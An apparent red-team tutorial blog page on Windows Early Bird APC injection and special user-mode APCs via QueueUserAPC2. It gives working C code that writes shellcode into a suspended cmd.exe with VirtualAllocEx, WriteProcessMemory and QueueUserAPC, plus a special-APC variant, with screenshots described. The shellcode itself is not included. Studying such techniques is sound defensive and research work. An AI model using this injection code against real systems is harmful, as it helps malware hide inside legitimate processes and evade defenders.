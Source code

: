 # Early Bird & Special APC

## Early Bird APC Injection

So what's is Early Bird APC Injection? how is it different than APC Injection ? The answer is simple, here instead of creating a suspended thread, we create a suspended process (note that the main thread will also be in suspended state) and then queue the APC call pointing to the allocated memory for our shellcode. The code is really simple, we can create a suspended process by providing the `CREATE_SUSPENDED` flag to the `CreateProcessA` API.

```c
VOID earlyBirdAPC() {
	
	STARTUPINFOA si = { 0 };
	PROCESS_INFORMATION pi = { 0 };

	CreateProcessA("C:\\Windows\\System32\\cmd.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
	HANDLE hProcess = pi.hProcess,
		hThread = pi.hThread;
	
	LPVOID pAddr = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (pAddr == NULL) {
		exit(2);
	}

	WriteProcessMemory(hProcess, pAddr, shellcode, sizeof(shellcode), 0);
	QueueUserAPC(pAddr, hThread, NULL);
	ResumeThread(hThread);

}
```

<figure><img src="../../.gitbook/assets/image (39) (1).png" alt=""><figcaption></figcaption></figure>

Note that since the thread was is suspended state, it directly runs all of the APC routine (which is just 1 in our case) and exits which is why we don't see a CMD spawn, if we look at it using Process Hacker , we can see that the cmd.exe is created in suspended state, but it exits after the calculator has been spawned. I had to use `getchar()` to be able to screenshot the suspended Process & Thread and here it is

<figure><img src="../../.gitbook/assets/image (40) (1).png" alt=""><figcaption></figcaption></figure>

note that the main thread is the thread of the actual malicious process and not the victim process.

if you want to go deep into this then  you can surely checkout [repnz's blog](https://repnz.github.io/posts/apc/user-apc/) on it, he has explained it in more depth.

## Special APC (Bonus)

This [**MSDN Page**](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/types-of-apcs) talks about different types of APC's and we see that there is another special user-mode APC. We can use the [`QueueUserAPC2`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc2) function with a [special flag](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ne-processthreadsapi-queue_user_apc_flags) to make our APC "special".

> Special user-mode APCs always execute, even if the target thread is not in an alertable state. For example, if the target thread is currently executing user-mode code, or if the target thread is currently performing an alertable wait, the target thread will be interrupted immediately for APC execution. If the target thread is executing a system call, or performing a non-alertable wait, the APC will be executed after the system call or non-alertable wait finishes (the wait is not interrupted).

I genuinely don't know why it does work on Windows 10 even though the minimum support client version is Windows 11 Build 22000 given on [QueueUserAPC2 page](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc2). But if it does, it does and so I'll show you how it works practically.

<mark style="color:red;">**Important Note**</mark> : Please avoid using this APC with legitimate processes, unless you do you, because it makes the thread interrupt immediately which _may_ crash your PC.

Anyways, looking at the function, it is very similar to its prequel and it seems that it acts just like a normal APC if don't pass any flags, and for special APC, we can pass the `QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC` flag which is just a 1.

```c
BOOL QueueUserAPC2(
  PAPCFUNC             ApcRoutine,
  HANDLE               Thread,
  ULONG_PTR            Data,
  QUEUE_USER_APC_FLAGS Flags
);

typedef enum _QUEUE_USER_APC_FLAGS {
  QUEUE_USER_APC_FLAGS_NONE,
  QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC,
  QUEUE_USER_APC_CALLBACK_DATA_CONTEXT
} QUEUE_USER_APC_FLAGS;

// Below is from processthreadsapi.h

    QUEUE_USER_APC_FLAGS_NONE               = 0x00000000,
    QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC   = 0x00000001,
    //
    // Used for requesting additional callback data.
    //
    QUEUE_USER_APC_CALLBACK_DATA_CONTEXT    = 0x00010000, // 65536
```

To give an example of how the thread execution is stopped immediately, I wrote a small function that will keep a thread busy for a while. It was important because the thread finished its execution even before I could queue the APC call.

```c
VOID noAleeert() {
	info("Thread ID noAlert : %d", GetCurrentThreadId());
	for (size_t i = 0; i < 50000; i++) {
		// If printing these many is unfavorable then 
		// Loop till 50, with a Sleep(1) or below 30 imo
		// Sleep(1);
		printf(" %d ",i);
	}
}

QueueUserAPC2(shellcode, hThread, NULL, QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC);

```

We see that even though the thread was supposed to execute a long loop but it was stopped in the middle of its execution to run our special APC.&#x20;

<figure><img src="../../.gitbook/assets/SpecialAPC2.gif" alt=""><figcaption></figcaption></figure>

Also another thing to note is that the thread does resume it's execution after it has finished running the special APC. In our case, it _could_ be the shellcode that causes it to exit immediately (This is just my guess, if you know then please reach out to me). We can see this with another example, here I will have a global variable `COUNT` which I will reset using the special APC. This also shows how the APC can disrupt the normal execution and change the data.

```c
SIZE_T COUNT = 5;

VOID testt() {
	info("I ran because im special");
	COUNT = 0;
}
//
QueueUserAPC2((PAPCFUNC)testt, hThread, NULL, QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC);
```

<figure><img src="../../.gitbook/assets/SpecialAPCresume (1).gif" alt=""><figcaption></figcaption></figure>

We can see that the thread stops execution at 13, runs the special APC, and then continues its execution again until 35 at which the loop ends (14 + 36 = 50).

That's it for now, this was the 2nd part of the APC Injection. I did felt like I should break it into 2 parts. Anyways, I am going to talk about syscalls next and also hooking/unhooking functions. It's a bit hard to squeeze out time for my hobby now, but I'll keep doing it.

## References

* [https://repnz.github.io/posts/apc/user-apc/#ntqueueapcthread-system-call-layer](https://repnz.github.io/posts/apc/user-apc/#ntqueueapcthread-system-call-layer)
* [https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/types-of-apcs](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/types-of-apcs)
* [https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc2](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc2)
* [https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection](https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection)

